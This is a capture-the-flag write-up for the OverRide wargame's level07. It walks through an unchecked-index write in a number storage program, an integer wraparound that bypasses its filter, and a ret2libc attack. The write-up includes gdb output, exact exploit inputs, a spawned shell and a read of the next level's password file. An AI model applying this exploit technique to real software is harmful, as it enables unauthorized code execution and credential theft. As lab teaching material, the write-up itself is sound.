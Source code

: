 # Context

The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). 

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

# lead

we are going to exploit the flaw in the store_number() function. Since we can write on the stack with the offset of our choice, we can change the address stored in EIP without overwriting the canary stack.

We could store a shellcode on the stack using the store_number() function, but it would be a bit tedious. Instead, we'll do a ret2libc attack, as we did for the level04.

# Exploit

1. First of all, let's find the address of the buffer. We know it is located at 0x24(%esp) in the main() function. Using gdb, we get the address of ESP (0xffffd520) and then calculate the effective address of the buffer: 0xffffd544.

2. We must then find the address of EIP in order to calculate its offset from the buffer. To do so, we just need to set a breakpoint anywhere in the main() function using gdb, and enter the command `ìnfo frame`. It is the address contained in EIP in the saved registers section that we want: 0xffffd70c. We just have to subtract this address from the buffer address to find the offset. Since we record unsigned int, we have to divide this value by 4 to find the right index. So we want to write from index 114.
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```

3. Here's a little issue: 114 is divisible by 3, so the program will prevent us from writing there. But fortunately for us, when an unsigned int overflows (values over 4294967295), it "wraps around". So UINT_MAX + 1 = 0, UINT_MAX + 2 = 1...
`(4294967295 + 1 + 456) / 4 = 1073741938` is not divisible by three, but will write exactly where we want to.

4. Finally, we can find the memory addresses of the system() and exit() functions, as well as the string "/bin/sh", as we did in level04:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

5. We can now record the decimal value of the system() address at index 1073741938, then the one for exit() at index 115 and finally the one for "/bin/sh" at index 116. Once this is done, a shell will be launched when we try to exit the program:
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115   
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We can now reach the next level with the command `su level08` and fill in the flag found as a password.